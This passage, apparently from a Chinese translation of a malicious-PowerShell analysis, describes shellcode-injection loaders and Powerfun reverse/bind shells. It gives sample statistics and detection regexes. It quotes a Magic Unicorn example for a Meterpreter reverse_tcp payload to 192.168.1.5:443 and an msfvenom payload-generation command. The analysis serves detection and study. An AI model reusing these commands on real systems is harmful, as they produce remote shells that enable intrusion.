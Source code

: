 这四类变种几乎覆盖了在启动EXE文件整个过程中所用到的所有技术。

以上代码片段的要点是样本按照以下顺序从DLL文件中导入函数。

“kernel32.dll”中的VirtualAlloc函数，

“kernel32.dll”中的CreateThread函数，

“msvcrt.dll”中的memset函数。

之后他们使用“0x”十六进制表示方法将shellcode载入字节数组中，然后调用VirtualAlloc函数分配至少4,096字节大小的RWX内存页面空间，通过memset函数将字节数组拷贝至内存中，利用CreateThread函数将执行权交给shellcode。

在1,971个样本中，有1,211个不同的shellcode载荷，这表明有50%以上的shellcode载荷被多个样本重复使用。这些工具大多数都使用Metasploit来生成shellcode，在不指定载荷情况下，通常都会选择反弹型Meterpreter shell。例如，下面是一行来自于Magic Unicorn中的代码，用来打印如何指定MSF载荷。

print("PS Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443")

以来代码用来在指定系统平台、架构及编码条件下生成载荷：



```
"msfvenom -p %s %s %s StagerURILength=5 StagerVerifySSLCert=false -e x86/shikata_ga_nai -a x86 --platform windows --smallest -f c" % (
            payload, ipaddr, port), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
```

从shellcode长度来看，两种常见的长度分别是294字节和312字节，对应的样本数分别是846个和544个，其他长度所对应的样本数则相差较大。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0190eb00b3ad7f9bcf.png)

我认为造成这种现象的原因在于它们可能使用相同的工具来生成shellcode载荷，除了在某些地方（如4字节的IP地址，C2服务器的URL地址等）做了稍微改动。

本文对变种的分类主要是基于特征值法，以下是筛选这四类变种的正则表达式：

Shellcode注入：



```
"^($c = |$1 = ["']$c = )"
"$g = 0x1000" 
"$z.Length -gt 0x1000"
"$z[$i]"
Unicorn：
"$w = Add-Type -memberDefinition $[a-zA-Z0-9]{3,4} -Name"
SET：
"$code = [']{1,2}[DllImport"
"$sc.Length -gt 0x1000)"
"$winFunc::memset"
Unicorn修改版：
"^$[a-zA-Z0-9]{5,7} = '[DllImport.+Start-sleep 60};"
```

**4.16 Powerfun Reverse（100个样本，占比2.44%）**

**4.17 Powerfun Bind（2个样本，占比0.05%）**

我们在Powerfun中还发现了另一种代码执行方法，它们使用Metasploit的“windows/powershell_reverse_tcp”以及“powershell_bind_tcp”载荷来创建与目标系统的交互式shell。反弹型载荷通过base64进行编码，并通过使用System.Diagnostics.Process来实现进程的后台启动。
